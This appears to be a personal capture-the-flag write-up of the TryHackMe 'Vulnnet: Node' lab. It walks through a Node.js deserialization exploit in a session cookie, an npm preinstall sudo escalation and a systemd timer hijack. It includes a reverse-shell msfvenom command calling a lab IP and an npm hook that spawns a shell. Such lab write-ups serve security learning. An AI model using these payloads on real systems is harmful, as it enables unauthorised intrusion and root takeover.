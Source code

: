 # Vulnnet: Node

https://tryhackme.com/room/vulnnetnode

An interesting room, that I found pretty straight forward. However I had a bit of trouble with the final privesc. Still not entirely sure why - need to learn more about systemctl I guess.

1. Rustscan showed only port 8080. On there, enumerating about, I found a nodejs website with nothing obvious aside from a 'session' cookie.
2. The 'session' cookie was base64, decoding it revealed a basic structure with the username, which I could manipulate. I thought this might be template injection, but couldn't find a payload that worked.
3. Instead, I searched nodejs deserialization exploits, and found this: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/. Using https://raw.githubusercontent.com/ajinabraham/Node.Js-Security-Course/master/nodejsshell.py I created a reverse shell payload and embedded it in `{"rce":"_$$ND_FUNC$$_function (){<reverse-shell-code-here>}()"}` before base64 encoding the result, opening a listener on my attack box, and submitting the new cookie I got a reverse-shell as `www-data`.
4. `sudo -l` revealed www-data could run `/usr/bin/npm` as the user `serv-manage`. Using the gtfo-bins entry, I created a package.json in /tmp via `echo '{"scripts": {"preinstall": "/bin/sh"}}' > /tmp/package.json`. I then switched to the serv-manage user via `sudo -u serv-manage /usr/bin/npm -C /tmp i`. The **user.txt** flag was in serv-manage's home directory.
5. `sudo -l` revealed that serv-manage could restart a systemd timer, and initiate a daemon reload. Both the timer and the service it invoked were writable.

I struggled a bit at this point. What I tried was creating a script in `/tmp/script.sh` that would copy bash and set the suid bit, and then modified the service to invoke this script. However this failed, and I am not sure why. Ultimately, I narrowed it down to something about invoking a script (even `touch test` failed, so it wasnt the command). When I switched to asking it to run `/bin/date` it worked, so I needed a binary not a script.

For overwriting the service and timer, given I was several shells deep, I found the best approach was to use cyberchef to edit the content then base64 encode the result. To overwrite the timer, I would do `echo <base64> | base64 -d > /etc/systemd/system/vulnnet-service.timer` for example.

6. To create a payload, I used msfvenom: `msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.222.217 lport=4445 -f elf > connect`, and then used a python webserver to get this onto the compromised server before making it executable with `chmod +x`
7. I altered the service file to invoke `/tmp/connect`, then modified the timer file to run every minute instead of every 30.
8. Finally I used the sudo commands to reload the daemon and stop/start the timer, then waited with a reverse shell listener.

Soon enough it connected and I had a root shell, with the final flag under `/root`.
